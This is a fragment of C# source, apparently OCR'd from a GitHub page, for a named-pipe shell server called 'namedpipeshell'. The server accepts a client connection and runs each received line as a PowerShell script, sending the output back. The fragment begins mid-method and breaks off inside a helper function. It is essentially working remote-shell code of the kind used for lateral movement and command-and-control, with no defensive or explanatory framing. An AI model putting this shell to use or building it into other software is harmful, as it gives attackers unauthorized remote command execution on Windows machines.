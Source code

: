```C#
                using (var pipe = new NamedPipeServerStream(
                "namedpipeshell",
                PipeDirection.InOut,
                NamedPipeServerStream.MaxAllowedServerInstances,
                PipeTransmissionMode.Message))
                {
                    Console.WriteLine("[*] Waiting for client connection...");
                    pipe.WaitForConnection();
                    Console.WriteLine("[*] Client connected.");
                    while (true)
                    {
                        var messageBytes = ReadMessage(pipe);
                        var line = Encoding.UTF8.GetString(messageBytes);
                        Console.WriteLine("[*] Received: {0}", line);
                        if (line.ToLower() == "exit")
                        {
                            return;
                        }

                        // Execute PowerShell code.
                        try
                        {

                            Pipeline PsPipe = runspace.CreatePipeline();
                            PsPipe.Commands.AddScript(line);
                            PsPipe.Commands.Add("Out-String");
                            Collection<PSObject> results = PsPipe.Invoke();
                            StringBuilder stringBuilder = new StringBuilder();
                            foreach (PSObject obj in results)
                            {
                                stringBuilder.AppendLine(obj.ToString());
                            }

                            var response = Encoding.ASCII.GetBytes(stringBuilder.ToString());

                            try
                            {
                                pipe.Write(response, 0, response.Length);
                            }
                            catch
                            {
                                Console.WriteLine("[!] Pipe is broken!");
                                break;
                            }

                        }
                        catch (Exception e)
                        {
                            var response = Encoding.ASCII.GetBytes("ERROR: " + e.Message);
                            pipe.Write(response, 0, response.Length);
                        }
                    }
                }
            }
        }

        private static byte[] ReadMessage(PipeStream pipe)
        {
            byte[] buffer = new byte[1024];
            using (var ms = new MemoryStream())
            {
                do
                {
```